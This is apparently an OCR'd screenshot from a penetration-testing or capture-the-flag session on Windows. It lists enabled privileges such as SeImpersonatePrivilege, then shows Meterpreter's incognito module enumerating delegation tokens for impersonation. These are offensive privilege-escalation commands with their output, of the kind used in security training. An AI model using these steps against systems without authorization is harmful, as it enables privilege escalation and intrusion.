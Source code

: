 ```ps1
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

meterpreter > use incognito
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\sppsvc
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv
